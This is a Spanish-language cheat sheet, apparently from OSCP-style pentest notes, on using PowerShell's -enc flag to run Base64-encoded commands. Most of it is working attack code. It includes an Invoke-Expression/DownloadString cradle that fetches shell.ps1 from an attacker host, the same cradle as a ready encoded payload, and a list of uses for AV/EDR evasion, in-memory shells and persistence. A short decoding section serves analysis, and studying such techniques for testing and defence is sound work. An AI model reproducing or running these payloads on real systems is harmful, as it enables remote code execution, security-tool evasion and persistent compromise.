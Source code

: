 El flag `-enc` (abreviatura de `-encodedCommand`) en PowerShell permite ejecutar comandos codificados en Base64. Es común en técnicas de evasión, persistencia y ejecución remota de payloads en entornos Windows comprometidos.

---

## 1. Ejemplo básico de uso

```cmd
powershell -enc <cadena_base64>
```

Donde `<cadena_base64>` es el comando PowerShell codificado en Base64 en UTF-16LE (Unicode Little Endian).

---

## 2. Codificar un comando

### En Linux:
```bash
echo -n 'Invoke-Expression (New-Object Net.WebClient).DownloadString("http://tu_ip/shell.ps1")' | iconv -t UTF-16LE | base64 -w 0
```

### En Windows (PowerShell):
```powershell
$command = 'Invoke-Expression (New-Object Net.WebClient).DownloadString("http://tu_ip/shell.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
[Convert]::ToBase64String($bytes)
```

---

## 3. Ejecutar payloads codificados

```cmd
powershell -enc SQBtAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMgAuADAALgAwAC4AMQAvAHMAaABlAGwAbAAuAHAAcwAxACIAKQA=
```

Esto ejecutará el comando en memoria sin escribir nada en disco.

---

## 4. Decodificar manualmente

Para revisar qué hace un comando `-enc`, decodifica así:

### En Linux:
```bash
echo '<cadena_base64>' | base64 -d | iconv -f UTF-16LE
```

### En PowerShell:
```powershell
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("<cadena_base64>"))
```

---

## Uso OSCP-style
- Evasión AV/EDR cuando se bloquea PowerShell interactivo
- Payloads de Meterpreter o shells personalizadas en memoria
- Persistencia en claves de registro o tareas programadas

---
